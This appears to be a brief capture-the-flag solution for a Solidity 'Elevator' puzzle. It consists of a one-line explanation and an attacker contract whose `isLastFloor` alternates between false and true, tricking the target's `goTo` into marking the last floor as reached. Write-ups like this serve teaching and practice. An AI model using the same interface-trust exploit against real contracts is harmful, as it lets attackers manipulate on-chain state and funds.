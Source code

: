 we control the building so we can make `isLastFloor` return first false then true on the second call

```
pragma solidity ^0.8.0;

contract Elevator {
  function goTo(uint) public {}
}

contract WeirdBuilding {
    bool lastFloor;

    constructor() {
        lastFloor = false;
    }

    function isLastFloor(uint) external returns (bool) {
        bool t = lastFloor;
        lastFloor = !lastFloor;
        return t;
    }

    function hack(address instance) public {
        Elevator elevator = Elevator(instance);
        elevator.goTo(type(uint).max);
    }
}
```
